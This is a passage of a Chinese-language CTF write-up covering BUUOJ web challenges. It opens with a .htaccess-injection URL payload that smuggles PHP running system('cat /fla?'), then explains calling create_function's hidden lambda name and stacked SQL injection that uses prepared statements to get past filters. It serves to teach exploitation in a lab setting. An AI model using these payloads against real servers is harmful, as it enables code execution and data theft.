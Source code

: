 ```
http://b63dd291-7b33-432f-a92d-b3bf76db2f08.node4.buuoj.cn:81/?filename=.htaccess&content=php_value+auto_prepend_fi\%0ale+.htaccess%0a%23<?php+system('cat /fla?');?>\
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211241500537.png)

## [SUCTF 2018]annonymous

```php
<?php

$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__);
```

题目来源于 hitcon 2017

[https://lorexxar.cn/2017/11/10/hitcon2017-writeup/](https://lorexxar.cn/2017/11/10/hitcon2017-writeup/)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211241532642.png)

大意是说通过 create\_function 创建的匿名函数其实是有名字的, 函数名为 `\x00lambda_%d`, `%d` 为数字, 依次递增

那么就可以通过 intruder 来爆破出这个数字

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211241535044.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211241535656.png)

## [SWPU2019]Web4

登录框存在 sql 注入

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211241653148.png)

测试发现过滤了一些关键字, select 也被过滤了... 看了 wp 才发现是堆叠注入

堆叠注入可以用预编译绕过关键字过滤

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211241654519.png)

python 脚本
